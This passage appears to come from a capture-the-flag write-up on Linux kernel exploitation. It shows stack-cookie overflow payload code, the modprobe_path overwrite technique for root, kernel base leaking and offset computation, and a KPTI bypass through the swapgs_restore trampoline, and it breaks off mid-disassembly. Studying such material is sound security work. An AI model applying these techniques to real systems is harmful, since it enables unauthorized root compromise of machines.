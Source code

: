     int n = 50;
    int off= 16;
    unsigned long payload[n];
    payload[off++] = cookie; //kernel cookie pops these 3 registers not just rbp like userland
    payload[off++] = 0x0; // rbx
    payload[off++] = 0x0; // r12
    payload[off++] = 0x0; // rbp
    ssize_t w = write(fd, payload, sizeof(payload));

The real objective in a kernel challenge is escalate the privilege to root!
There are various techniques to became root the one I will use is called modprobe_path overwrite...
What is `modprobe`?  In short words is a program that will be executed when we install/remove new modules, is a kernel global variables defined in `/proc/kallsyms` (where all kernel symbols exported lies) and the base path is `/sbin/modprobe`, we will overwrite it to execute a malicious payload.
Let's check /proc/kallsyms:

    / $ cat /proc/kallsyms |head
    cat: can't open '/proc/kallsyms': Permission denied

We need to tweak our initramfs, there is a script in initramfs/etc/   called inittab that is the responsible from spawning us a user shell:

    ::sysinit:/etc/init.d/rcS
    ::once:-sh -c 'cat /etc/motd; setuidgid 1000 sh; poweroff'

We modify it (remember to revert it when testing final exploit!!!), to get us a root shell!

    ::sysinit:/etc/init.d/rcS
    ::once:-sh -c 'cat /etc/motd; setuidgid 0 sh; poweroff'

We can see if it worked when we execute run.sh we get

    / # id
    uid=0 gid=0 groups=0

Now let's grep the interesting symbols...

    / # cat /proc/kallsyms | grep modprobe_path
    ffffffffa2c61820 D modprobe_path
    / # cat /proc/kallsyms | grep swapgs_restore_regs_and_return_to_usermode
    ffffffffa1e00f10 T swapgs_restore_regs_and_return_to_usermode
The last one is the function we will use to bypass kpti...
Those addresses are also randomized, so we need to leak kernel base and subtract it from those addresses to get their offsets...

    Kernel Base: ffffffffa1c00000 //running our exploit

So we add those lines:

    unsigned long modprobe = kbase + 0x1061820UL;
    unsigned long swapgs_restore = kbase + 0x200f10UL +22;

If you are asking why the +22 in the trampoline function here is the explanation:


    / # cat /proc/kallsyms |grep swapgs_restore_regs_and_return_to_usermode
    ffffffff98000f10 T swapgs_restore_regs_and_return_to_usermode
    
    pwndbg> x/15i 0xffffffff98000f10
       0xffffffff98000f10:	pop    r15 \
       0xffffffff98000f12:	pop    r14 |
       0xffffffff98000f14:	pop    r13 |
       0xffffffff98000f16:	pop    r12 |
       0xffffffff98000f18:	pop    rbp |
       0xffffffff98000f19:	pop    rbx |
       0xffffffff98000f1a:	pop    r11 |
       0xffffffff98000f1c:	pop    r10 | <- SKIP THOSE!
       0xffffffff98000f1e:	pop    r9  |
       0xffffffff98000f20:	pop    r8  |
       0xffffffff98000f22:	pop    rax |
       0xffffffff98000f23:	pop    rcx |